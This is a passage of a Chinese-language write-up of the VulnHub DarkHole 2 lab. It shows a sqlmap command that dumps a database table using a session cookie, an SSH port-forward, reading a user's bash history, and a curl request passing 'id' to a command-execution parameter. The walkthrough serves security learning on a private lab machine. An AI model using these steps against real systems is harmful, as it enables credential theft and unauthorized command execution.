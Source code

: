 

#### 爆数据

```shell
sqlmap -u http://192.168.1.35/dashboard.php?id=1 --cookie PHPSESSID=8dhtd5vlaj784je44el8cgvq9i -D darkhole_2 -T ssh --dump --batch
```

![](D:\stu\vulnhub\darkhole靶场\pic-2\9-2.jpg)





## 提权

#### 内网信息收集

以`ssh`连接，登录用户`jehad`

![](D:\stu\vulnhub\darkhole靶场\pic-2\10.jpg)



查看当前目录下的`.bash_history`，看用户使用`bash`的记录

首先看到对于`.ssh`目录下的认证进行了一波操作

![](D:\stu\vulnhub\darkhole靶场\pic-2\10-1.jpg)

![10-2](D:\stu\vulnhub\darkhole靶场\pic-2\10-2.jpg)



另一波操作，是从端口下手

![](D:\stu\vulnhub\darkhole靶场\pic-2\10-3.jpg)

![10-4](D:\stu\vulnhub\darkhole靶场\pic-2\10-4.jpg)



首先使用`netstat -tulpn`筛选正在监听的`tcp`端口，然后使用`ssh`连接

```shell
ssh -L 127.0.0.1:90:192.168.135.129:9999 jehad@192.168.135.129
```

这条命令，可以将本地计算机（执行该命令的这台机器）上的一个端口与远程服务器（`192.168.135.129`）上的一个端口进行绑定，使得对本地指定端口的访问请求会被转发到远程服务器相应端口，并且通过 SSH 加密隧道来实现数据传输，保证了通信的安全性。



具体的分析，放在最后的总结当中

```shell
curl "http://localhost:9999/?cmd=id"
```

然后这里还可以看到进行转发后，访问的地址有个参数`cmd`
